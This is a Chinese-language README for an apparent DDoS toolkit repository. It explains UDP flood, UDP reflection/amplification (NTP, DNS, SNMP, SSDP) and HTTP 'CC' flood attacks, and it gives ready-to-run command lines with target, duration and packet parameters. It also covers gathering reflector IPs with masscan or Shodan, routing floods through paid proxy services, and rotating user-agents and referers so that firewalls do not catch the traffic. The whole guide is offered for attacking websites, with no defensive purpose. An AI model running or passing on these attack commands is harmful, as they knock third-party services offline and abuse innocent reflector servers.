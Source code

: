 # 常用dddos工具集合
## 目录
* [本工具攻击方法简介](#本工具攻击方法简介)
* [本工具使用方法](#使用方法)

## 本工具攻击方法简介

##### 网络层UDP攻击(目录：/udp/)：

>原理：发送海量数据包，顷刻占满目标系统的全部带宽，正常请求被堵在门外，拒绝服务的目的达成。
```
    1.UDP直接攻击（/udp/local/udpflood.php ）
        优点：操作简单，直接在本机上即可发动攻击
        缺点：由于本机发送大量UDP请求可能会被服务器商警告，或者在路由上被丢弃，且大型站点的机房都有防御，UDP直接攻击流量峰值无法突破大型站点的防御。正常应用情况下，UDP 包双向流量会基本相等，因此在消耗对方资源的时候也在消耗自己的资源。

    2.UDP反射型攻击（/udp/proxy/Saddam.py）
        优点：可以用较小的流量达到较大的攻击流量，且流量来自世界各地的真实服务器，难以被拦截。
        缺点：操作复杂，需收集大量IP，且需要机房允许发送伪造的数据包（大部分正规机房不允许发送伪造的UDP数据包）
```

##### 应用层CC攻击(目录：/cc/):

> 原理：对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务器端资源的目的。在Web应用中，查询数据库、读写硬盘文件等操作，相对都会消耗比较多的资源。

    1.CC直接攻击（/cc/local.py）
      优点：操作便捷，使用本机运行程序攻击
      缺点：单IP请求太频繁容易被目标站防火墙拦截禁封IP

    2.CC代理攻击（/cc/proxy-txt.py）
      优点：使用大量代理IP攻击，不易被拦截
      缺点：需要购买大量代理IP

## 使用方法
    如果要攻击的站点使用的是独立IP，可以直接输入IP地址
    如果要攻击的站点为某个网址，建议修改/etc/hosts，绑定要攻击域名与IP，减少DNS查询次数

##### 网络层UDP攻击(/udp/)

1. UDP直接攻击(/udp/local/)
```sh
    #php版本 > 5.4
    1.访问网址调用
      http://127.0.0.1/udpflood-web.php?pass=1f3870be274f6c49b3e31a0c6728957f&host=www.test.com&port=80&time=99999&packet=9999&bytes=999
    2.运行PHP文件调用
      php ./udpflood.php  host=www.test.com port=80 time=99999 packet=9999 bytes=999
```
2. UDP反射攻击(/udp/proxy/)
```sh
    #python版本2.7
    1.收集IP地址
      使用工具（如：masscan或者shodan）查找出大量开启NTP服务123端口的服务器IP，保存到ntp.txt文件
    2.填写参数运行python程序
      python Saddam.py www.test.com benchmark -n ntp.txt 
```
    > 此处以ntp攻击为例，其他反射攻击收集不同端口IP地址并修改 -n ntp.txt 即可
- -d dns反射攻击
- -s snmp反射攻击
- -p ssdp放射攻击

##### 应用层CC攻击(/cc/)
> python版本3.6
1. CC直接攻击(cc/local.py)
```sh
#get请求攻击 
  python3 local.py -v http://www.test.com/search.php?searchword=
#post请求攻击 
  python3 local.py -v http://www.test.com/search.php -p searchword
```

2. CC代理攻击(cc/proxy/)
```sh
#随机调用files/proxy.txt代理请求攻击 
  python3 proxy-txt.py -v http://www.test.com/search.php?keyword=
#使用luminati代理接口(修改proxyUser和proxyPass为自己的账户)
  python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
#使用abuyun代理接口(修改proxyUser和proxyPass为自己的账户)
  python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
```

###### 参数说明
- v 必选 待攻击网址或ip地址，例：-v www.test.com
- p 可选 post请求参数，例：-p searchword

###### files目录文件说明
- proxy.txt 随机代理，一行一个
- user-agents.txt 随机请求头，一行一个，防止目标站防火墙特征识别
- referers.txt 来路域名，一行一个
- keywords.txt 搜索关键词，一行一个
